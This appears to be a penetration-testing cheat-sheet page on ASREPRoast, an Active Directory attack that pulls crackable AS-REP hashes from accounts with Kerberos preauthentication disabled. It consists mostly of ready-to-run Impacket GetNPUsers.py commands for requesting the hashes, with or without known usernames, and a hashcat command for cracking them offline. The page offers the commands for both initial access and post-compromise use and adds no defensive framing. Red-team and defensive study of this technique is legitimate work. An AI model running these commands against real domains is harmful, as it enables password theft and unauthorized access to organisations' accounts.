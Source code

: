 # ASREPRoast

**In case of last resort.** **PS: This attack could be used in a post-compromise scenario but also in the initial attack vectors ;)**

## Brief

ASREPRoast is about retrieving crackable hashes from KRB5 AS-REP responses for users without kerberoast preauthentication enabled. This isn’t as useful as Kerberoasting, as accounts have to have DONT\_REQ\_PREAUTH() explicitly set for them to be vulnerable and you’re still reliant upon weak password complexity for the attack to work. But who knows, might be the only weak point you need. Now, if you can enumerate accounts in a Windows domain that don’t require Kerberos preauthentication, you can easily request a piece of encrypted information for said accounts and efficiently crack the material offline, revealing the user’s password. To do that you need to :

1. Send the **KRB\_AS\_REQ** to get the **KRB\_AS\_REP** with the encrypted information, to do so :
   1. If you have username :
      1. `GetNPUser.py $domain/$username -no-pass -dc-ip $ip -request`
   2. If you have no username :
      1. `GetNPUser.py $domain/ -no-pass -dc-ip $ip -request`
2. Crack hashes :
   1. `hashcat -m 18200 ticket wordlist`

```bash
# MISC of commands
GetNPUsers.py -dc-ip $ip -request $domain/

GetNPUsers.py -dc-ip $ip -request $domain/ -format hashcat/john

GetNPUsers.py -dc-ip $ip -usersfile users.txt $domain/

GetNPUsers.py $domain/backup -no-pass

GetNPUsers.py -no-pass $domain/ -usersfile users.txt -format hashcat -outputfile hashes.txt
```
